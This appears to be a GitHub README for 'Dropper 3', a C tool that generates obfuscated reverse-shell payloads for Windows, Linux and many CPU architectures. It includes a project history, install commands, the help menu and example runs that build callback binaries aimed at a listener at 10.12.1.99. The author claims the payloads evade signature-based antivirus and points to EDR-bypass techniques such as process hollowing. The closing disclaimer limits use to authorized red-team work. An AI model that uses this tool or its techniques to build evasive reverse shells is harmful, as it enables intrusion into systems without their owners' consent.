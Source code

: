# Dropper 3 (BCE) - The end of a five year long payload generation odyssey.

![](assets/dropper-3-odyssey.gif)

## Prelude

I started this project to discover a fast and efficient way to generate a reverse shell binary payload without a whole lot of fuss for Cyber Security Experts and Red Teamers alike. From the start, I wanted to use a language that I wasn’t too familiar with, as a challenge for myself in utilizing to develop my solution. I decided to go with Golang since it was rather popular at the time in our community, and I was anxious to learn the language to keep up with the ever evolving trends in InfoSec. Very quickly I realized how powerful a language like Golang is, as well as some of its common drawbacks. As <a href=”https://github.com/byt3bl33d3r”>Byt3bl33d3r</a> so elequently put it, Go makes THICC malwares, like 1.8 MB THICC! 😳 Not only that, but the Golang runtime environment and related artifacts tend to migrate with any binary file compiled on ones local system, thus leaving tons of forensic clues to Blue Teamers to determine the origin from where the payload was created, and what tools were used, etc. Just a mess. 

Enter Dropper2. While this project served its purpose at addressing all these pesky artifacts left behind, as best as possible, without going full <a href=”https://github.com/burrowers/garble”>Garble</a> with it, coupled with some randomized obfuscation, helped get the job done at evading Anti-Virus, and some EDR solutions, at least for a little while. The next step in this evolutionary journey was to test out another unique language growing in popularity, Rust. Over the course of a month, learning the language well enough to be dangerous, and creating <a href=”https://github.com/Elmofire/ef”>Elmofire</a> as a result, I had yet another obfuscated payload generator, leaving Golang behind, at least for now. After all was said and done, Elmofire, the new and improved Dropper, without all the bloated chubby gophers, and yet, I still felt something was missing from my journey into malware development. 

I decided to take a step back and focus on what other malware authors (good and bad) have used in the past. After thumbing through what seems like endless lines of source code on <a href="https://github.com/vxunderground/MalwareSourceCode">VXUG’s Github</a>, I noticed a very obvious common pattern in language choice: C/C++. This was it! I had always wanted to learn C/C++ but had no idea where to start those 5 years ago. I had learned a great deal regarding low level programming since then, including Assembly fundamentals on various architechtures. Finally, my mind felt ready, and like I’ve always done, I rewrote Dropper, now for a 3rd and final time in C. Taking it way back, (Before the Common Era) 😉

So, with the back story out of the way, may I present: Dropper 3.0 (BCE).

## Dependancies

Given the fact we're using C, you're gonna need every type of compiler used by Dropper3 to build each type of binary payload. Run the following command to install the necessary compilers and build libraries:
<code>sudo apt install gcc make gcc-mingw-w64 binutils-mingw-w64 gcc-mingw-w64-i686 binutils-mingw-w64-i686 gcc-mingw-w64-x86-64 binutils-mingw-w64-x86-64 gcc-x86-64-linux-gnux32 binutils-x86-64-linux-gnu gcc-sparc64-linux-gnu binutils-sparc64-linux-gnu gcc-riscv64-linux-gnu binutils-riscv64-linux-gnu gcc-powerpc-linux-gnu binutils-powerpc-linux-gnu gcc-powerpc64-linux-gnu binutils-powerpc64-linux-gnu gcc-mips-linux-gnu binutils-mips-linux-gnu gcc-mips64-linux-gnuabi64 binutils-mips64-linux-gnuabi64 gcc-i686-linux-gnu binutils-i686-linux-gnu gcc-hppa-linux-gnu binutils-hppa-linux-gnu gcc-hppa64-linux-gnu binutils-hppa64-linux-gnu gcc-alpha-linux-gnu binutils-alpha-linux-gnu gcc-arm-linux-gnueabi binutils-arm-linux-gnueabi gcc-aarch64-linux-gnu binutils-aarch64-linux-gnu gcc-s390x-linux-gnu binutils-s390x-linux-gnu</code>

## Usage

Usage is the same as its predecessors, simply compile the source using <code>gcc -o dropper3 dropper3.c</code> and run <code>./dropper3 -h</code>

E.g. Help Menu
<pre>
$ ./dropper3 -h
Usage: Usage of dropper3:
  -a string
                Architecture: i686, amd64, arm, arm64, powerpc64, powerpc, mips, mips64, s390x, sparc64, riscv64, hppa, hppa64, alpha
  -l string
                Listening host: <listening ip:port>
  -o string
                Output filename: <anything goes>
  -p string             Operating System: windows, linux
  -s string
                Shell type: cmd, powershell, /bin/sh, /bin/bash, /usr/bin/zsh, /system/bin/sh, /bin/busybox
</pre>

E.g. Windows Payload
<pre>
$ ./dropper3 -p windows -a amd64 -l 10.12.1.99:1337 -o potato -s cmd
Operating System: windows
Architecture: amd64
Listening host: 10.12.1.99:1337
Output filename: potato
Shell type: cmd
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$ file potato.exe 
potato.exe: PE32+ executable (console) x86-64, for MS Windows
</pre>

E.g. Linux Payload
<pre>
$  ./dropper3 -p linux -a arm64 -l 10.12.1.99:31337 -o chips -s /bin/sh  
Operating System: linux
Architecture: arm64
Listening host: 10.12.1.99:31337
Output filename: chips
Shell type: /bin/sh
Payload built successfully
</pre>

Confirm result using the <code>file</code> command
<pre>
$  file chips 
chips: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, BuildID[sha1]=9eefe4521695a769e0a384e87d1d8ea89b45fd8b, for GNU/Linux 3.7.0, not stripped
</pre>

## F.A.Q.

“So what exactly does this accomplish?”

- Other than my own personal accomplishments, not much; only now instead of producing THICC malwares, the payloads created by Dropper 3 are much smaller, like 1.5MB smaller! Huzzah!

“Besides the weight loss, how much has really changed?”

- Not much to be honest. Still using the same obfuscation and randomization techniques as done in Dropper2. Payloads will still evade off-the-shelf signature-based Anti-Virus, however, for EDRs, you’ll want to couple one of these generated payloads with other techniques, such as Fileless PE Loading, Process Hollowing, Döppleganging, etc. Check out <a href="https://github.com/hasherezade/">Hasherazade’s Github</a> for more awesome research on the topic.

“Is this really the end?”

- Yes, this is the end for Dropper rewrites and language developments. I had initially used this project as an intermediate form of <i>Hello World</i> for malware developers, and I highly recommend anyone out there reading this to follow the same principal. Take an idea for some really cool malware/innocent program you’d like to create, then pick a language you’ve never used before and learn it! Learn that language to build the program you want to see come to life in the language you want to see it written in. I promise you, you’ll learn way more than you ever thought you would, and you’ll become a better programmer because of it.

“How about that disclaimer?”

- Awww here it goes! 😎

## Disclaimer

This tool is intended for Penetration Testers, Security Researchers and Red Teamers alike. DO NOT USE this tool for ILLEGAL purposes or WITHOUT the CONSENT from the parties involved while agreed upon by LEGAL DOCUMENTATION or PERMISSIVE ACCESS for security consultation or research purposes. I, hereby relinquish ALL responsibility for any illegal use of this tool or ANY binary payloads subsequently generated by the tool as described. You have been warned.
